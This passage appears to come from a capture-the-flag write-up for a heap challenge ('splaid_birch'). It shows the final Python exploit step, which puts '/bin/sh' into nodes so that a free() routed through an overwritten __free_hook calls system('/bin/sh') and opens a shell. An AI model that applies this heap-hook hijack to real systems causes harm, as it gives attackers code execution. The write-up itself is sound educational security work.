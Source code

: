 ```python
    create_node(s, u64("/bin/sh\x00"), 0)

    # Adding a second node with the same val will fail and result in `free(node_2)`
    # We made `__free_hook` point to system and so we get `system("/bin/sh\x00")`
    create_node(s, u64("/bin/sh\x00"), 0)
```

---
Running the exploit:

![upload-image]({{ "/assets/img/splaid_birch/final_scrn.png"}})
